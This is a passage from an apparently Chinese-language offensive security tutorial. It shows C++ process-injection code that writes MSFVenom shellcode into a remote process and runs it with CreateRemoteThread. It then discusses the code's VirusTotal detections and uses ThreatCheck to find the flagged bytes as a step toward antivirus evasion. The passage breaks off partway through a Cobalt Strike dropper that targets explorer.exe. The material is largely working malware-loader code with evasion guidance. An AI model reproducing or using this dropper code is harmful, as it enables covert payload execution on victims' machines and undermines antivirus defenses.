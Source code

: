 ```

    memAddr = VirtualAllocEx(hProcess, NULL, dwSize,flAllocationType,flProtect);
    cout << "[+] Memory Allocated at:" << memAddr << "\n";
    
    WriteProcessMemory(hProcess, memAddr, buf, dwSize, &bytesOut);
    cout << "[+] Number of bytes written: " << bytesOut << "\n";

    CreateRemoteThread(hProcess, NULL, dwSize, (LPTHREAD_START_ROUTINE)memAddr, 0, 0, 0);
    return 0;
}

```

_上面的代码可以用 Visual Studio 2019 编译_

上面的代码是我们的无阶段 shellcode，它是相当标准的进程注入技术。

https://www.virustotal.com/gui/file/1d42289fac501595b5e20e014f40a605e2332848531588734c3e93cb3062d2f8/detection

总共有 19/68 家反病毒供应商在此程序上进行了标记。重要的是要注意大多数标记的供应商将其标记为 Generic.Exploit.Metasploit，这是 AV 供应商正在开发其签名的一个巨大指标。似乎大量的 AV 供应商可能正在共享签名，或者至少对相同的事情发出警告。

有趣的是，Microsoft Windows Defender 将此检测为恶意软件；太棒了！让我们看一下 ThreatCheck 以获取更多信息。分析完成后，我们看到 ThreatCheck 被识别`D0 66 41 8B 0C 48 44 8B`为坏字节；查看 Visual Studio，我们可以看到这实际上是我们由 MSFVenom 生成的 shellcode 的一部分。

![](https://mmbiz.qpic.cn/mmbiz_png/icqm3vRUymZliaiarx6Eh39hbkicyX1P1qFv20JuA08vYqbWY0BYUYbE4JN8VZQ2KHoe3B3P8tdkGdHuUeSLiarntog/640?wx_fmt=png)_来自 ThreatCheck 的分析_

**奖励回合 - 钴击！** 让它更上一层楼，让我们使用 Cobalt Strike 的滴管。使用 Payload Generator 功能，我们可以为我们的 dropper 生成 C++ shellcode：

之后，系统会提示我们在磁盘上的某个位置放置我们的 shellcode，检查文件：![](https://mmbiz.qpic.cn/mmbiz_png/icqm3vRUymZliaiarx6Eh39hbkicyX1P1qFvQ8ysn8WBKJL6JQQVKQNqFGatZibyqiaQ7XZHa7ibqvfLjJxSAmTDtvyyQ/640?wx_fmt=png)

繁荣！我们有我们的 shellcode。是时候将它放入我们的 dropper 并更新字节值了：

```
#include <iostream>
#include <Windows.h>
#include <tlhelp32.h>
#include <locale>
#include <string>

using namespace std;

HANDLE GetProcesHandleName() {
    HANDLE ProcessHandle;

    PROCESSENTRY32 procEntry;
    procEntry.dwSize = sizeof(PROCESSENTRY32);

    HANDLE allProcesses;
    allProcesses = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);

    if (Process32First(allProcesses, &procEntry) == TRUE) {
        while (Process32Next(allProcesses, &procEntry) == TRUE) {
            wchar_t newtargetProcName[1024] = L"explorer.exe";

            if (wcscmp(procEntry.szExeFile, newtargetProcName) == 0) {
                cout << "Process ID Found! PID: " << procEntry.th32ProcessID << "\n";
                ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, procEntry.th32ProcessID);
                return ProcessHandle;
            }

        }

    }
```